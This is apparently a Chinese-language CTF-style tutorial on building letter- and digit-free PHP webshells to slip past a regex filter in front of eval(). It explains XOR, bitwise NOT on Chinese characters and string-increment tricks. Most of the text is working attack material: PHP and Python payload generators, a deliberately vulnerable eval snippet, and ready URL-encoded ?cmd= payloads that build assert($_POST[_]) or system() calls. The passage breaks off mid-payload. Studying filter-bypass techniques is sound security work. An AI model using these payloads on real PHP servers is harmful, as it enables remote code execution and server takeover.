# 一、写在前面

关于无字母数字Webshell这个话题，可以说是老生常谈了。但是一直以来我都没怎么去系统的研究过这个问题，在这里做一波研究与总结。所谓无字符webshell,其基本原型就是对以下代码的绕过:

```php
第一种写法：
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['cmd'])) {
  eval($_GET['cmd']);
}

第二种写法：
<?php
$a = $_GET['cmd'];
if(!preg_match('/[a-z0-9]/is',$_GET['cmd']))
{
    eval($a);
}
```

# 二、基础知识

## PHP中的异或

来看这样一段代码:

```php
<?php
echo "5"^"Z";
?>
```

结果将会输出o,我们来分析下原因,5的ASCII码是53,转成二进制是00110101,Z的ASCII码是90,转成二进制是01011010,将他们进行异或,为,也即十进制的111,为o.
 我们深入一点来看看关于函数的执行的示例:

```php
<?php
    function o(){
        echo "Hello,Von";
    }
    $_++;
    $__= "5" ^ "Z";
    $__();
?>
```

结果将能够成功输出"Hello,Von",我们来看一下执行的原理。

```php
$_++对_变量进行了自增操作,由于我们没有定义_的值,PHP会给_赋一个默认值NULL==0,由此我们可以看出,我们可以在不使用任何数字的情况下,通过对未定义变量的自增操作来得到一个数字
$__= "5" ^ "Z"这步我们上面已经见过了,将会赋给__这个变量一个值"o"
由于PHP的动态语言特性,PHP允许我们将字符串当成函数来处理,因此在这里面的$__()就相当于调用了o()
```


## PHP中的取反

来看下面这个例子:

```php
>>> print("卢".encode("utf8"))
b'\xe5\x8d\xa2'
```

```php
<?php
$_="卢";
print(~($_{1}));
print(~"\x8d");
// 输出rr
```

上面两个输出是相同的原因是因为里面$_{1}就是\x8d，至于为什么对\x8d进行取反就能得到r，具体原理解释起来涉及到取反、补码、十六进制编码等的相关知识，就略过不表了。(建议回去复习计组)
 总之我们就需要知道，对于一个汉字进行~($x{0})或~($x{1})或~($x{2})的操作，可以得到某个ASCII码的字符值

## PHP5和PHP7的区别

- PHP5中，assert()是一个函数，我们可以用$_=assert;$_()这样的形式来执行代码。但在PHP7中，assert()变成了一个和eval()一样的语言结构，不再支持上面那种调用方法。(不过貌似这点存疑，我在PHP7.1中确实不允许再使用这种调用方法了，但是网上有人貌似在PHP7.0.12下还能这样调用，可能是7.1及以上不行??)
- PHP5中，是不支持($a)()这种调用方法的，但在PHP7中支持这种调用方法，因此支持这么写('phpinfo')();

## PHP中的短标签

PHP中有两种短标签，`<??>和<?=?>。`其中，`<??>`相当于对`<?php>的替换。而<?=?>`则是相当于`<? echo>`。例如:

```
<?= '111'?>
```

将会输出'111'   大部分文章说短标签需要在php.ini中设置short_open_tag为on才能开启短标签(默认是开启的，但似乎又默认注释，所以还是等于没开启)。但实际上在PHP5.4以后，无论short_open_tag是否开启，`<?=?>这种写法总是适用的，<??>这种写法则需要short_open_tag开启才行`。

## PHP中的反引号

`PHP中，反引号可以起到命令执行的效果。`

```php
<?php
$_=`whoami`;
echo $_;
```

成功执行命令

 如果我们利用上面短标签的写法，可以把代码简写为:

```php
<?= `whoami`?>
```

# 三、方法浅析

基本所有的思路都是利用无字符构造出相关字符如assert,来进行执行函数。

## 0x01 异或（^/xor)

### 法一：需要用到两个脚本：

1. **异或字符.php**

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

2. **payload生成.py**

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

两个脚本放在一个目录，先php运行后生成一个txt文档，包含所有可见字符的异或构造结果。接着运行python脚本即可。
 运行结果

```shell
[+] your function：system
[+] your command：dir
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%04%09%09"^"%60%60%7b");
```



看到成功执行了system('');命令。

### 法二：一个脚本(好用)

```php
//RCE异或_good.php
<?php
$shell = "assert";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if(isset($shell[$num])) {
                        if ($f == $shell[$num]) {
                            $result1 .= chr($x);
                            $result2 .= chr($y);
                            break 2;
                        }
                    }
                }
            }
        }
    }
}

echo $shell.'的异或组成为："'.$result1.'"^"'.'$result2'.'"';
//echo $shell.'的组成为以下两部分';
//echo "\r\n";
//echo $result1;
//echo "\r\n";
//echo $result2;

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
```

这个POC可以将"assert"变成两个字符串异或的结果。为了便于表示，生成字符串的范围我均控制为可见字符(即ASCII为33~126)，如果要使POC适用范围更广，可以改为0~126，只不过对于不可见字符，需要用url编码表示。



 使用这个POC，我们可以得到:

```php
<?php
$_ = "!((%)("^"@[[@[\\";   //构造出assert
$__ = "!+/(("^"~{`{|";   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
结合到一行：
?cmd=$_ = "!((%)("^"@[[@[\\";$__ = "!+/(("^"~{`{|";$___ = $$__;$_($___[_]);
url编码一下：(url编码就是它的16进制编码前面加个%哈)
?cmd=%24_%20%3D%20%22!((%25)(%22%5E%22%40%5B%5B%40%5B%5C%5C%22%3B%24__%20%3D%20%22!%2B%2F((%22%5E%22~%7B%60%7B%7C%22%3B%24___%20%3D%20%24%24__%3B%24_(%24___%5B_%5D)%3B
```

代入此题的环境，可以看到，成功执行命令



### 发三：根据ascii码表自己构造



假如说我们想要构造出小写字母`a`，按照上表，`a`的二进制为`01100001`，那我们就可以选择两个非字母数字的字符进行异或，这里有很多种选法，我选择的是`@`和`!`这两个，成功异或出了字母`a`：



然后我们就可以按照这个方法进行拼接了，我们的目标字符串是`assert($_POST[_])`，其实很简单，我们需要拼接的字母只有九个而已，拼接结果如下，因为很多都是不可见的字符，所以说我就先url编码了一下（url编码就是它的16进制编码前面加个`%`哈）：

```php
//assert($_POST[_])
?cmd=$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]);
```



## 0x02 取反

### 法一：汉字取反

就是利用取反的原理，对汉字取反获得字符。我给出一个POC,从3000+个汉字中获得通过取反得到assert。

```PHP
<?php
header("Content-type:text/html;charset=utf-8");
$shell = "assert";
$result = "";
$arr =array();
$word = "一乙二十丁厂七卜人入八九几儿了力乃刀又三于干亏士工土才寸下大丈与万上小口巾山千乞川亿个勺久凡及夕丸么广亡门义之尸弓己已子卫也女飞刃习叉马乡丰王井开夫天无元专云扎艺
木五支厅不太犬区历尤友匹车巨牙屯比互切瓦止少日中冈贝内水见午牛手毛气升长仁什片仆化仇币仍仅斤爪反介父从今凶分乏公仓月氏勿欠风丹匀乌凤勾文六方火为斗忆订计户认心尺引
丑巴孔队办以允予劝双书幻玉刊示末未击打巧正扑扒功扔去甘世古节本术可丙左厉右石布龙平灭轧东卡北占业旧帅归且旦目叶甲申叮电号田由史只央兄叼叫另叨叹四生失禾丘付仗代仙们
仪白仔他斥瓜乎丛令用甩印乐句匆册犯外处冬鸟务包饥主市立闪兰半汁汇头汉宁穴它讨写让礼训必议讯记永司尼民出辽奶奴加召皮边发孕圣对台矛纠母幼丝式刑动扛寺吉扣考托老执巩圾
扩扫地扬场耳共芒亚芝朽朴机权过臣再协西压厌在有百存而页匠夸夺灰达列死成夹轨邪划迈毕至此贞师尘尖劣光当早吐吓虫曲团同吊吃因吸吗屿帆岁回岂刚则肉网年朱先丢舌竹迁乔伟传
乒乓休伍伏优伐延件任伤价份华仰仿伙伪自血向似后行舟全会杀合兆企众爷伞创肌朵杂危旬旨负各名多争色壮冲冰庄庆亦刘齐交次衣产决充妄闭问闯羊并关米灯州汗污江池汤忙兴宇守宅
字安讲军许论农讽设访寻那迅尽导异孙阵阳收阶阴防奸如妇好她妈戏羽观欢买红纤级约纪驰巡寿弄麦形进戒吞远违运扶抚坛技坏扰拒找批扯址走抄坝贡攻赤折抓扮抢孝均抛投坟抗坑坊抖
护壳志扭块声把报却劫芽花芹芬苍芳严芦劳克苏杆杠杜材村杏极李杨求更束豆两丽医辰励否还歼来连步坚旱盯呈时吴助县里呆园旷围呀吨足邮男困吵串员听吩吹呜吧吼别岗帐财针钉告我
乱利秃秀私每兵估体何但伸作伯伶佣低你住位伴身皂佛近彻役返余希坐谷妥含邻岔肝肚肠龟免狂犹角删条卵岛迎饭饮系言冻状亩况床库疗应冷这序辛弃冶忘闲间闷判灶灿弟汪沙汽沃泛沟
没沈沉怀忧快完宋宏牢究穷灾良证启评补初社识诉诊词译君灵即层尿尾迟局改张忌际陆阿陈阻附妙妖妨努忍劲鸡驱纯纱纳纲驳纵纷纸纹纺驴纽奉玩环武青责现表规抹拢拔拣担坦押抽拐拖
拍者顶拆拥抵拘势抱垃拉拦拌幸招坡披拨择抬其取苦若茂苹苗英范直茄茎茅林枝杯柜析板松枪构杰述枕丧或画卧事刺枣雨卖矿码厕奔奇奋态欧垄妻轰顷转斩轮软到非叔肯齿些虎虏肾贤尚
旺具果味昆国昌畅明易昂典固忠咐呼鸣咏呢岸岩帖罗帜岭凯败贩购图钓制知垂牧物乖刮秆和季委佳侍供使例版侄侦侧凭侨佩货依的迫质欣征往爬彼径所舍金命斧爸采受乳贪念贫肤肺肢肿
胀朋股肥服胁周昏鱼兔狐忽狗备饰饱饲变京享店夜庙府底剂郊废净盲放刻育闸闹郑券卷单炒炊炕炎炉沫浅法泄河沾泪油泊沿泡注泻泳泥沸波泼泽治怖性怕怜怪学宝宗定宜审宙官空帘实试
郎诗肩房诚衬衫视话诞询该详建肃录隶居届刷屈弦承孟孤陕降限妹姑姐姓始驾参艰线练组细驶织终驻驼绍经贯奏春帮珍玻毒型挂封持项垮挎城挠政赴赵挡挺括拴拾挑指垫挣挤拼挖按挥挪
某甚革荐巷带草茧茶荒茫荡荣故胡南药标枯柄栋相查柏柳柱柿栏树要咸威歪研砖厘厚砌砍面耐耍牵残殃轻鸦皆背战点临览竖省削尝是盼眨哄显哑冒映星昨畏趴胃贵界虹虾蚁思蚂虽品咽骂
哗咱响哈咬咳哪炭峡罚贱贴骨钞钟钢钥钩卸缸拜看矩怎牲选适秒香种秋科重复竿段便俩贷顺修保促侮俭俗俘信皇泉鬼侵追俊盾待律很须叙剑逃食盆胆胜胞胖脉勉狭狮独狡狱狠贸怨急饶蚀
饺饼弯将奖哀亭亮度迹庭疮疯疫疤姿亲音帝施闻阀阁差养美姜叛送类迷前首逆总炼炸炮烂剃洁洪洒浇浊洞测洗活派洽染济洋洲浑浓津恒恢恰恼恨举觉宣室宫宪突穿窃客冠语扁袄祖神祝误
诱说诵垦退既屋昼费陡眉孩除险院娃姥姨姻娇怒架贺盈勇怠柔垒绑绒结绕骄绘给络骆绝绞统耕耗艳泰珠班素蚕顽盏匪捞栽捕振载赶起盐捎捏埋捉捆捐损都哲逝捡换挽热恐壶挨耻耽恭莲莫
荷获晋恶真框桂档桐株桥桃格校核样根索哥速逗栗配翅辱唇夏础破原套逐烈殊顾轿较顿毙致柴桌虑监紧党晒眠晓鸭晃晌晕蚊哨哭恩唤啊唉罢峰圆贼贿钱钳钻铁铃铅缺氧特牺造乘敌秤租积
秧秩称秘透笔笑笋债借值倚倾倒倘俱倡候俯倍倦健臭射躬息徒徐舰舱般航途拿爹爱颂翁脆脂胸胳脏胶脑狸狼逢留皱饿恋桨浆衰高席准座脊症病疾疼疲效离唐资凉站剖竞部旁旅畜阅羞瓶拳
粉料益兼烤烘烦烧烛烟递涛浙涝酒涉消浩海涂浴浮流润浪浸涨烫涌悟悄悔悦害宽家宵宴宾窄容宰案请朗诸读扇袜袖袍被祥课谁调冤谅谈谊剥恳展剧屑弱陵陶陷陪娱娘通能难预桑绢绣验继
球理捧堵描域掩捷排掉堆推掀授教掏掠培接控探据掘职基著勒黄萌萝菌菜萄菊萍菠营械梦梢梅检梳梯桶救副票戚爽聋袭盛雪辅辆虚雀堂常匙晨睁眯眼悬野啦晚啄距跃略蛇累唱患唯崖崭崇
圈铜铲银甜梨犁移笨笼笛符第敏做袋悠偿偶偷您售停偏假得衔盘船斜盒鸽悉欲彩领脚脖脸脱象够猜猪猎猫猛馅馆凑减毫麻痒痕廊康庸鹿盗章竟商族旋望率着盖粘粗粒断剪兽清添淋淹渠渐
混渔淘液淡深婆梁渗情惜惭悼惧惕惊惨惯寇寄宿窑密谋谎祸谜逮敢屠弹随蛋隆隐婚婶颈绩绪续骑绳维绵绸绿琴斑替款堪搭塔越趁趋超提堤博揭喜插揪搜煮援裁搁搂搅握揉斯期欺联散惹葬
葛董葡敬葱落朝辜葵棒棋植森椅椒棵棍棉棚棕惠惑逼厨厦硬确雁殖裂雄暂雅辈悲紫辉敞赏掌晴暑最量喷晶喇遇喊景践跌跑遗蛙蛛蜓喝喂喘喉幅帽赌赔黑铸铺链销锁锄锅锈锋锐短智毯鹅剩
稍程稀税筐等筑策筛筒答筋筝傲傅牌堡集焦傍储奥街惩御循艇舒番释禽腊脾腔鲁猾猴然馋装蛮就痛童阔善羡普粪尊道曾焰港湖渣湿温渴滑湾渡游滋溉愤慌惰愧愉慨割寒富窜窝窗遍裕裤裙
谢谣谦属屡强粥疏隔隙絮嫂登缎缓编骗缘瑞魂肆摄摸填搏塌鼓摆携搬摇搞塘摊蒜勤鹊蓝墓幕蓬蓄蒙蒸献禁楚想槐榆楼概赖酬感碍碑碎碰碗碌雷零雾雹输督龄鉴睛睡睬鄙愚暖盟歇暗照跨跳
跪路跟遣蛾蜂嗓置罪罩错锡锣锤锦键锯矮辞稠愁筹签简毁舅鼠催傻像躲微愈遥腰腥腹腾腿触解酱痰廉新韵意粮数煎塑慈煤煌满漠源滤滥滔溪溜滚滨粱滩慎誉塞谨福群殿辟障嫌嫁叠缝缠静
碧璃墙撇嘉摧截誓境摘摔聚蔽慕暮蔑模榴榜榨歌遭酷酿酸磁愿需弊裳颗嗽蜻蜡蝇蜘赚锹锻舞稳算箩管僚鼻魄貌膜膊膀鲜疑馒裹敲豪膏遮腐瘦辣竭端旗精歉熄熔漆漂漫滴演漏慢寨赛察蜜谱
嫩翠熊凳骡缩慧撕撒趣趟撑播撞撤增聪鞋蕉蔬横槽樱橡飘醋醉震霉瞒题暴瞎影踢踏踩踪蝶蝴嘱墨镇靠稻黎稿稼箱箭篇僵躺僻德艘膝膛熟摩颜毅糊遵潜潮懂额慰劈操燕薯薪薄颠橘整融醒餐
嘴蹄器赠默镜赞篮邀衡膨雕磨凝辨辩糖糕燃澡激懒壁避缴戴擦鞠藏霜霞瞧蹈螺穗繁辫赢糟糠燥臂翼骤鞭覆蹦镰翻鹰警攀蹲颤瓣爆疆壤耀躁嚼嚷籍魔灌蠢霸露囊罐匕刁丐歹戈夭仑讥冗邓艾
夯凸卢叭叽皿凹囚矢乍尔冯玄邦迂邢芋芍吏夷吁吕吆屹廷迄臼仲伦伊肋旭匈凫妆亥汛讳讶讹讼诀弛阱驮驯纫玖玛韧抠扼汞扳抡坎坞抑拟抒芙芜苇芥芯芭杖杉巫杈甫匣轩卤肖吱吠呕呐吟呛
吻吭邑囤吮岖牡佑佃伺囱肛肘甸狈鸠彤灸刨庇吝庐闰兑灼沐沛汰沥沦汹沧沪忱诅诈罕屁坠妓姊妒纬玫卦坷坯拓坪坤拄拧拂拙拇拗茉昔苛苫苟苞茁苔枉枢枚枫杭郁矾奈奄殴歧卓昙哎咕呵咙
呻啰咒咆咖帕账贬贮氛秉岳侠侥侣侈卑刽刹肴觅忿瓮肮肪狞庞疟疙疚卒氓炬沽沮泣泞泌沼怔怯宠宛衩祈诡帚屉弧弥陋陌函姆虱叁绅驹绊绎契贰玷玲珊拭拷拱挟垢垛拯荆茸茬荚茵茴荞荠荤
荧荔栈柑栅柠枷勃柬砂泵砚鸥轴韭虐昧盹咧昵昭盅勋哆咪哟幽钙钝钠钦钧钮毡氢秕俏俄俐侯徊衍胚胧胎狰饵峦奕咨飒闺闽籽娄烁炫洼柒涎洛恃恍恬恤宦诫诬祠诲屏屎逊陨姚娜蚤骇耘耙秦
匿埂捂捍袁捌挫挚捣捅埃耿聂荸莽莱莉莹莺梆栖桦栓桅桩贾酌砸砰砾殉逞哮唠哺剔蚌蚜畔蚣蚪蚓哩圃鸯唁哼唆峭唧峻赂赃钾铆氨秫笆俺赁倔殷耸舀豺豹颁胯胰脐脓逛卿鸵鸳馁凌凄衷郭斋
疹紊瓷羔烙浦涡涣涤涧涕涩悍悯窍诺诽袒谆祟恕娩骏琐麸琉琅措捺捶赦埠捻掐掂掖掷掸掺勘聊娶菱菲萎菩萤乾萧萨菇彬梗梧梭曹酝酗厢硅硕奢盔匾颅彪眶晤曼晦冕啡畦趾啃蛆蚯蛉蛀唬唾
啤啥啸崎逻崔崩婴赊铐铛铝铡铣铭矫秸秽笙笤偎傀躯兜衅徘徙舶舷舵敛翎脯逸凰猖祭烹庶庵痊阎阐眷焊焕鸿涯淑淌淮淆渊淫淳淤淀涮涵惦悴惋寂窒谍谐裆袱祷谒谓谚尉堕隅婉颇绰绷综绽
缀巢琳琢琼揍堰揩揽揖彭揣搀搓壹搔葫募蒋蒂韩棱椰焚椎棺榔椭粟棘酣酥硝硫颊雳翘凿棠晰鼎喳遏晾畴跋跛蛔蜒蛤鹃喻啼喧嵌赋赎赐锉锌甥掰氮氯黍筏牍粤逾腌腋腕猩猬惫敦痘痢痪竣翔
奠遂焙滞湘渤渺溃溅湃愕惶寓窖窘雇谤犀隘媒媚婿缅缆缔缕骚瑟鹉瑰搪聘斟靴靶蓖蒿蒲蓉楔椿楷榄楞楣酪碘硼碉辐辑频睹睦瞄嗜嗦暇畸跷跺蜈蜗蜕蛹嗅嗡嗤署蜀幌锚锥锨锭锰稚颓筷魁衙
腻腮腺鹏肄猿颖煞雏馍馏禀痹廓痴靖誊漓溢溯溶滓溺寞窥窟寝褂裸谬媳嫉缚缤剿赘熬赫蔫摹蔓蔗蔼熙蔚兢榛榕酵碟碴碱碳辕辖雌墅嘁踊蝉嘀幔镀舔熏箍箕箫舆僧孵瘩瘟彰粹漱漩漾慷寡寥
谭褐褪隧嫡缨撵撩撮撬擒墩撰鞍蕊蕴樊樟橄敷豌醇磕磅碾憋嘶嘲嘹蝠蝎蝌蝗蝙嘿幢镊镐稽篓膘鲤鲫褒瘪瘤瘫凛澎潭潦澳潘澈澜澄憔懊憎翩褥谴鹤憨履嬉豫缭撼擂擅蕾薛薇擎翰噩橱橙瓢蟥
霍霎辙冀踱蹂蟆螃螟噪鹦黔穆篡篷篙篱儒膳鲸瘾瘸糙燎濒憾懈窿缰壕藐檬檐檩檀礁磷了瞬瞳瞪曙蹋蟋蟀嚎赡镣魏簇儡徽爵朦臊鳄糜癌懦豁臀藕藤瞻嚣鳍癞瀑襟璧戳攒孽蘑藻鳖蹭蹬簸簿蟹
靡癣羹鬓攘蠕巍鳞糯譬霹躏髓蘸镶瓤矗";
function mb_str_split( $string ) {
    return preg_split('/(?<!^)(?!$)/u', $string );
}
foreach (mb_str_split($word) as $c)
{
    $arr[] = $c;
}

for ($x=0;$x<strlen($shell);$x++)
{
    for ($y=0;$y<count($arr);$y++) {
        $k = $arr[$y];
        if (isset($k{1})) {
            if ($shell[$x] == ~($k{1})) {
                $result .= $k;
                break;
            }
        }
    }
}
echo $shell.'可以由以下字符取反得到：';
echo "\r\n";
echo $result;
```



根据上面这个POC，我们可以知道，由"极区区皮十勺"可以得到"assert";由"寸小欠立"可以得到"POST"可以得到一个exp：

```php
<?php
$_++;   //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
$____ = '_';   //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;   //$_ = $_POST
$___($_[_]);   //assert($_POST[_])

写到一起：
?cmd=$_++;$__ = "极";$___ = ~($__{$_});$__ = "区";$___ .= ~($__{$_});$___ .= ~($__{$_});$__ = "皮";$___ .= ~($__{$_});$__ = "十";$___ .= ~($__{$_});$__ = "勺";$___ .= ~($__{$_});$____ = '_';$__ = "寸";$____ .= ~($__{$_});$__ = "小";$____ .= ~($__{$_});$__ = "欠";$____ .= ~($__{$_});$__ = "立";$____ .= ~($__{$_});$_ = $$____;$___($_[_]);

同样url编码一下：(url编码就是它的16进制编码前面加个%哈)
?cmd=%24_%2B%2B%3B%24__%20%3D%20%22%E6%9E%81%22%3B%24___%20%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8C%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%9A%AE%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8D%81%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8B%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24____%20%3D%20'_'%3B%24__%20%3D%20%22%E5%AF%B8%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%B0%8F%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E6%AC%A0%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%AB%8B%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24_%20%3D%20%24%24____%3B%24___(%24_%5B_%5D)%3B
```

成功执行命令，不过由于相同的原因，我们需要对exp进行URL编码才能正常使用。
 **这里还有一个需要注意的点是在PHP5下我们需要使用:**

```php
$__ = "欠";
$____ .= ~($__{$_});
```

这种写法而不能直接使用:

```php
$____ .= ~("欠"{$_});
```

后者是PHP7中的语法。

### 法二：直接目标字符取反

我们想要构造的依然是`assert($_POST[_])`这条语句，和上面一样，我们先用`php`的取反符号`~`将字符串`assert`和`_POST`取反，这里需要注意的是，由于它取反之后会有大量不可显字符，所以我们同样需要将其url编码，然后当我们要用的时候，再利用取反符号把它们取回来即可，具体请见下图：



可以看到，`assert`的取反结果是`%9E%8C%8C%9A%8D%8B`，`_POST`的取反结果是`%A0%AF%B0%AC%AB`，那我们就开始构造：

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
?cmd=$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```




### 缩短payload---升级版

在上面的学习过程中，可以知道:

```php
$_="卢";
print(~($_{1}));
print(~"\x8d");
```

这两种写法其实是等价的。所以如果把EXP中的~("欠"{1})写成~"\x8d"这种形式，可以缩减不少字符。总之我们需要知道的是，对于一个汉字进行`~($x{0})`或`~($x{1})`或`~($x{2})`的操作，可以得到某个`ascii码`的字符值，我们就可以利用这一点构造出`webshell`,给出POC:

```php
def get(shell):
    hexbit=''.join(map(lambda x: hex(~(-(256-ord(x)))),shell))
    hexbit = hexbit.replace('0x','%')
    print(hexbit)

get('assert')
get('_POST')
```



利用这个POC，我把上面的EXP缩减为:

```php
<?php
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"
$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"
$___ = $$__;   //$___=$_POST
$_($___[_]);   //assert($_POST[_])
写到一排：
?cmd=$_ = ~"%9e%8c%8c%9a%8d%8b";$__ = ~"%a0%af%b0%ac%ab";$___ = $$__;$_($___[_]);
```



注意到这里"assert"和"_POST"都用的URL编码表示，如果直接以\x9e\x8c\x8c\x9a\x8d\x8b这种UTF-8字符表示，并不能识别出为UTF-8字符，而是会被识别为英文+数字的字符串。

## 0x03 自增与自减

这种方法主要就是利用自增自减。

```php
"A"++ ==> "B"
"B"++ ==> "C"
```

也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。
 那么问题就转化为怎么得到一个字符"A"。在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。再取这个字符串的第一个字母，就可以获得"A"。

```
<?php
$a = ''.[];
var_dump($a);
```



故有payload:

```php
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])

放到一起再url编码一下：
?cmd=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%2